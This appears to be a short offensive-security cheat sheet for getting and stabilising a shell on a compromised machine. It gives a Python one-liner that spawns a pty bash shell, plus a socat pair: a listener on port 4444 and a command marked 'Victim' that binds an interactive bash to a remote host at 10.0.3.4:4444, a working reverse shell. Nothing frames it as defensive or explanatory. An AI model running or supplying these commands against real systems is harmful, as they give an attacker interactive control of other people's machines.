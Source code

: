 ## python
`Python3 -c "import pty; pty.spawn('/bin/bash')"`
## socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
